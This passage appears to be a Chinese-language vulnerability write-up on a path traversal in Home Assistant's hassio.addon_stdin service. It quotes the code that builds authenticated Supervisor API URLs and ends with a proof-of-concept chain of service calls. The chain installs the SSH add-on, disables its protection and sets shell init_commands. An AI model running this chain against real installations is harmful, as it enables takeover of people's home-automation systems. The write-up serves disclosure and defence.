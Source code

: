 ```bash
    # The exceptions are logged properly in hassio.send_command
    with suppress(HassioAPIError):
        await hassio.send_command(               # [2]
            api_endpoint.command.format(addon=addon, slug=slug),
            payload=payload,
            timeout=api_endpoint.timeout,
        )
```

能够调用此服务的攻击者将能够控制 service 变量，包括其 data 属性，因此也将控制 addon 和 payload 键/值。

在调用 hassio.addon\_stdin 服务时，service.service 的值将是 hassio.addon\_stdin，并且从 MAP\_SERVICE\_API(\[1\]) 检索的 api\_endpoint.command 的值将是/addons/{addon}/stdin。当调用 send\_command(\[2\]) 时，攻击者将能够控制 addon 格式字符串参数，因此可以改变 send\_command(code) 函数中传递的 URL 值。

```bash
async def send_command(
    self,
    command,
    method="post",
    payload=None,
    timeout=10,
    return_text=False,
    *,
    source="core.handler",
):
    """Send API command to Hass.io.

    This method is a coroutine.
    """
    try:
        request = await self.websession.request(
            method,
            f"http://{self._ip}{command}",
            json=payload,
            headers={
                aiohttp.hdrs.AUTHORIZATION: (
                    f"Bearer {os.environ.get('SUPERVISOR_TOKEN', '')}"
                ),
                X_HASS_SOURCE: source,
            },
            timeout=aiohttp.ClientTimeout(total=timeout),
        )
        ...
```

在这段代码中，`send_command`函数向 Supervisor API 发送一个经过认证的 application/json POST 请求。这使得攻击者可以操纵请求的路径和正文。

### Poc

```bash
data: {"addon": "../store/addons/a0d7b954_ssh/install?", "input": {}}
service: hassio.addon_stdin
data: {"addon": "a0d7b954_ssh/security?", "input": {"protected":false}}
service: hassio.addon_stdin
data: {"addon": "a0d7b954_ssh/options?", "input": {"options":{"init_commands": ["touch /tmp/pwned-ha", "ls /tmp"], "packages": [], "share_sessions": false, "zsh": true, "ssh": {"
service: hassio.addon_stdin
data: {"addon": "a0d7b954_ssh/restart?", "input": {}}
```
